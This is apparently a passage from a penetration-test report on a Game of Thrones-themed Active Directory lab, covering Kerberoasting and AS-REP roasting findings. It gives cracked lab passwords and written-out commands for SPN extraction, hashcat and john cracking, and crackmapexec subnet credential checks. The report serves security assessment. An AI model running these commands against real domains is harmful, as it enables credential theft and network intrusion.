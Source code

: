 ### 1.2 Kerberoasting Vulnerable Service Accounts

**CVSS Score:** 9.0 (Critical)

**Vector:** AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

**Vulnerable Accounts:**

```
jon.snow (CIFS/thewall.north.sevenkingdoms.local)
├── Password: iknownothing (CRACKED via rockyou.txt)
├── Delegation: constrained
└── Group Membership: Night Watch, Domain-level privileges

sansa.stark (HTTP/eyrie.north.sevenkingdoms.local)
├── Password: [CRACKING IN PROGRESS]
├── Delegation: None
└── Group Membership: Stark family

sql_svc (MSSQLSvc/castelblack.north.sevenkingdoms.local:1433)
├── Password: [CRACKING IN PROGRESS]
├── Last Logon: 2025-04-13 19:12:10
└── High-privilege SQL service account
```

**Exploitation Steps:**

```bash
# 1. SPN ExtractionGetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt
# 2. Hash Crackingjohn --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
hashcat -m 13100 kerberoast.txt rockyou.txt
# 3. Credential Validationcrackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
```

**Impact:**
- Immediate domain access
- Service account privilege escalation
- Constrained delegation exploitation potential
- SQL Server administrative access

### 1.3 AS-REP Roasting - Pre-Authentication Disabled

**CVSS Score:** 8.8 (High)
**Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Vulnerable Account:**

```
brandon.stark@NORTH.SEVENKINGDOMS.LOCAL
├── Password: iseedeadpeople (CRACKED via Hashcat)
├── Pre-Auth: DISABLED
├── Kerberos Ticket: $krb5asrep$23$brandon.stark@NORTH...
└── Account Status: Active, no lockout policy
```
